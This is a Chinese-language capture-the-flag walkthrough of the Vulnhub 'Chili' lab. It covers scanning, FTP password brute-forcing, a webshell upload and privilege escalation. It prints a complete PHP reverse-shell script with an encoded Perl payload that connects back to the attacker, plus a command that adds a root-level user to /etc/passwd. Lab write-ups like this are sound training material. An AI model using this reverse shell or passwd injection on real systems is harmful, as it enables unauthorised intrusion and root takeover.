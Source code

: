 ```yaml
---
title: chili
---
```


# 描述

> - Difficulty: Easy
> - Tested: VMware Workstation 15.x Pro (This works better with VMware rather than VirtualBox)
> - Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).
> - Information: Your feedback is appreciated - Email: suncsr.challenges@gmail.com
> - Hint : "If you ever get stuck, try again with the name of the lab"

# 信息收集

## arp-scan

使用arp-scan扫描内网，确定靶机IP

![image-20240709181821299](https://img.crzliang.cn/img/202407112352634.png)

## nmap

全端口扫描，并且确定所开放端口的服务以及对应的版本

```bash
nmap -sV -sC -p- 192.168.170.137
```

开放了21端口ftp服务，对应vsftpd 3.0.3

以及80端口的http服务，对应Apache2.4.38

![image-20240710132641807](https://img.crzliang.cn/img/202407112352636.png)

## dirseach

使用dirsearch扫目录，也没有扫出有用的东西

![image-20240710133422756](https://img.crzliang.cn/img/202407112352637.png)

## 查看源代码

在源代码中看到一个敏感词`keywords`内容为：Chili，结合靶机名字，猜测为ftp的用户名

![image-20240710133516341](https://img.crzliang.cn/img/202407112352638.png)

# 漏洞利用

## hydra爆破ftp弱口令

![image-20240711194440833](https://img.crzliang.cn/img/202407112352639.png)

## 超级弱口令爆破

![image-20240711194505949](https://img.crzliang.cn/img/202407112352640.png)

## 登录ftp

![image-20240711194623602](https://img.crzliang.cn/img/202407112352641.png)

进入到网站的根目录下可以看到`.nano`和`.vim`两个隐藏文件夹，其中`.nano`文件夹具有**任何用户都可以读取、修改或执行该目录中的文件或目录**的权限，而`.vim`目录只有**所有者可以读取、修改或执行该目录中的文件或目录，而组用户和其他用户只能读取和执行，但不能修改**的权限

![image-20240711200022620](https://img.crzliang.cn/img/202407112352642.png)

那么我们可以利用`.nano`目录的权限，上传一句话木马

## 一句话木马

上传一句话木马后使用蚁剑连接

![image-20240711202024498](https://img.crzliang.cn/img/202407112352643.png)

当我们直接点击打开root目录时，是会提醒权限不够的，所以要进行提权的操作

![image-20240711232306854](https://img.crzliang.cn/img/202407112352644.png)

## 反弹shell

因为蚁剑自带的虚拟终端很难用，所以还是要进行反弹shell的操作，以方便后续的提权操作

```php
<?php
function which($pr) {
	$path = execute("which $pr");
	return ($path ? $path : $pr);
	}
function execute($cfe) {
	$res = '';
	if ($cfe) {
		if(function_exists('exec')) {
			@exec($cfe,$res);
			$res = join("\n",$res);
			} 
			elseif(function_exists('shell_exec')) {
			$res = @shell_exec($cfe);
			} elseif(function_exists('system')) {
@ob_start();
@system($cfe);
$res = @ob_get_contents();
@ob_end_clean();
} elseif(function_exists('passthru')) {
@ob_start();
@passthru($cfe);
$res = @ob_get_contents();
@ob_end_clean();
} elseif(@is_resource($f = @popen($cfe,"r"))) {
$res = '';
while(!@feof($f)) {
$res .= @fread($f,1024);
}
@pclose($f);
}
}
return $res;
}
function cf($fname,$text){
if($fp=@fopen($fname,'w')) {
@fputs($fp,@base64_decode($text));
@fclose($fp);
}
}
$yourip = "your IP";
$yourport = 'your port';
$usedb = array('perl'=>'perl','c'=>'c');
$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj".
"aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR".
"hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT".
"sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI".
"kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi".
"KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl".
"OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw==";
cf('/tmp/.bc',$back_connect);
$res = execute(which('perl')." /tmp/.bc $yourip $yourport &");
?> 
```

反弹成功

![image-20240711232550579](https://img.crzliang.cn/img/202407112352646.png)

## 提权

切换交互式shell

``` python
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![image-20240711232651731](https://img.crzliang.cn/img/202407112352647.png)

### enumy64

使用enumy64进行提权枚举

可以看到`/etc/passwd`文允许其他用户读取和修改

![image-20240711234018842](https://img.crzliang.cn/img/202407112352648.png)

那么，我们就可以利用这个漏洞，添加一个新的用户，并加入到管理员组里，即可实现提权

### 添加新用户

openssl生成密码

```bash
openssl passwd -1 -salt hack hack 
```

![image-20240711234128116](https://img.crzliang.cn/img/202407112352649.png)

写入`/etc/passwd`

```bash
echo 'hack:$1$hack$xR6zsfvpez/t8teGRRSNr.:0:0:root:/root:/bin/bash' >>/etc/passwd
```

![image-20240711234332197](https://img.crzliang.cn/img/202407112352650.png)

### 提权成功

切换用户即可看到当前用户已经成功加入到root组

![image-20240711234351350](https://img.crzliang.cn/img/202407112352651.png)

# flag

读取root目录下的proof.txt文件即可获取到flag

![image-20240711234542926](https://img.crzliang.cn/img/202407112352652.png)

# 参考&工具

- [Vulnhub Chili靶机详细解题过程](https://www.cnblogs.com/jason-huawen/p/16894316.html)
- [php反弹shell脚本](https://blog.csdn.net/a1_pha/article/details/135800772)
- [enumy](https://github.com/luke-goddard/enumy)
